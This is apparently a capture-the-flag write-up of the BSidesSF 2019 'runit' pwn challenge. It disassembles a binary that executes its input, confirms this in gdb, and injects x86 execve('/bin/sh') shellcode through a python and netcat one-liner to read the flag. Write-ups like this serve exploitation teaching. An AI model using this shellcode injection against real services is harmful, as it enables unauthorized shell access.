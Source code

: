 # runit

PWN | 25 Points

We are given a typical binary executable. Let's first see what it does.
```
root@kali:~/Crack Me# ./runit
Send me stuff!!
asdfasdf
Segmentation fault
```
Executing it, we feed the program input, but for some reason we get a segmentation fault. Recall that a segmentation fault occurs when you try to access a region of memory that doesn't exist. We'll keep that in mind as we proceed.

Now, let's disassemble the binary.
```
   0x0804854b <+0>:	lea    ecx,[esp+0x4]
   0x0804854f <+4>:	and    esp,0xfffffff0
   0x08048552 <+7>:	push   DWORD PTR [ecx-0x4]
   0x08048555 <+10>:	push   ebp
   0x08048556 <+11>:	mov    ebp,esp
   0x08048558 <+13>:	push   ecx
   0x08048559 <+14>:	sub    esp,0x14
   0x0804855c <+17>:	sub    esp,0x8
   0x0804855f <+20>:	push   0x0
   0x08048561 <+22>:	push   0x0
   0x08048563 <+24>:	push   0x22
   0x08048565 <+26>:	push   0x7
   0x08048567 <+28>:	push   0x400
   0x0804856c <+33>:	push   0x0
   0x0804856e <+35>:	call   0x8048410 <mmap@plt>
   0x08048573 <+40>:	add    esp,0x20
   0x08048576 <+43>:	mov    DWORD PTR [ebp-0x10],eax
   0x08048579 <+46>:	sub    esp,0xc
   0x0804857c <+49>:	push   0xa
   0x0804857e <+51>:	call   0x80483e0 <alarm@plt>
   0x08048583 <+56>:	add    esp,0x10
   0x08048586 <+59>:	mov    eax,ds:0x804a034
   0x0804858b <+64>:	push   0x0
   0x0804858d <+66>:	push   0x2
   0x0804858f <+68>:	push   0x0
   0x08048591 <+70>:	push   eax
   0x08048592 <+71>:	call   0x8048430 <setvbuf@plt>
   0x08048597 <+76>:	add    esp,0x10
   0x0804859a <+79>:	mov    eax,ds:0x804a030
   0x0804859f <+84>:	push   0x0
   0x080485a1 <+86>:	push   0x2
   0x080485a3 <+88>:	push   0x0
   0x080485a5 <+90>:	push   eax
   0x080485a6 <+91>:	call   0x8048430 <setvbuf@plt>
   0x080485ab <+96>:	add    esp,0x10
   0x080485ae <+99>:	sub    esp,0xc
   0x080485b1 <+102>:	push   0x8048690
   0x080485b6 <+107>:	call   0x80483f0 <puts@plt>
   0x080485bb <+112>:	add    esp,0x10
   0x080485be <+115>:	sub    esp,0x4
   0x080485c1 <+118>:	push   0x400
   0x080485c6 <+123>:	push   DWORD PTR [ebp-0x10]
   0x080485c9 <+126>:	push   0x0
   0x080485cb <+128>:	call   0x80483d0 <read@plt>
   0x080485d0 <+133>:	add    esp,0x10
   0x080485d3 <+136>:	mov    DWORD PTR [ebp-0xc],eax
   0x080485d6 <+139>:	cmp    DWORD PTR [ebp-0xc],0x0
   0x080485da <+143>:	jns    0x80485f6 <main+171>
   0x080485dc <+145>:	sub    esp,0xc
   0x080485df <+148>:	push   0x80486a0
   0x080485e4 <+153>:	call   0x80483f0 <puts@plt>
   0x080485e9 <+158>:	add    esp,0x10
   0x080485ec <+161>:	sub    esp,0xc
   0x080485ef <+164>:	push   0x1
   0x080485f1 <+166>:	call   0x8048400 <exit@plt>
   0x080485f6 <+171>:	mov    eax,DWORD PTR [ebp-0x10]
   0x080485f9 <+174>:	call   eax
   0x080485fb <+176>:	mov    eax,0x0
   0x08048600 <+181>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x08048603 <+184>:	leave  
   0x08048604 <+185>:	lea    esp,[ecx-0x4]
   0x08048607 <+188>:	ret
```
We are given way more information than we actually need. There's a lot going on here, but we see some interesting things.

1. The `alarm` call gives us 10 seconds to access the binary. It isn't the worst thing that could happen, but just very annoying.
2. The `read` call's file descriptor is `stdin`, so it is the read function which takes care of IO. The interesting consequence here is that we won't see any buffer overflows.
3. There is a call to `eax` at `0x080485fb`. Given that we saw a segmentation fault, this makes things very interesting.

We'll set a break point right at that call function, and we'll see what's in `eax`.
```
(gdb) b *0x080485f9
Breakpoint 1 at 0x80485f9
(gdb) r
Starting program: /root/Crack Me/runit
Send me stuff!!
ABCD

Breakpoint 1, 0x080485f9 in main ()
(gdb) x/s $eax
0xf7ffb000:	"ABCD\n"
```
Sure enough, it's the input we gave. Given that it's a call to `eax`, we can simply inject shell code instead. Let's open up our [trusty shell code](http://shell-storm.org/shellcode/files/shellcode-811.php) and we'll inject that into the program.
```
root@kali:~/quintuplecs/BSidesSF2019# (python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; cat) | nc runit-5094b2cb.challenges.bsidessf.net 5252
Send me stuff!!
cat /home/ctf/flag.txt
CTF{you_ran_it}
```
